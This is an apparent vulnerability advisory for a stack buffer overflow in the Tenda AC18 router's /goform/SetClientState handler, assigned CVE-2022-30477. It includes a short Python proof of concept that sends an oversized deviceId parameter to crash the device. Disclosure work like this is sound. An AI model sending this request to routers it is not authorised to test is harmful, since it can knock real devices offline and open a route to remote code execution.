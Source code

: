 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/SetClientState` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `formSetClientState`.

In function `formSetClientState` it reads user provided parameter `deviceId` into `v9`, and this variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/SetClientState`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/SetClientState?"
url += "limitEn=1&deviceId=" + "s" * 0x500

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30477)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
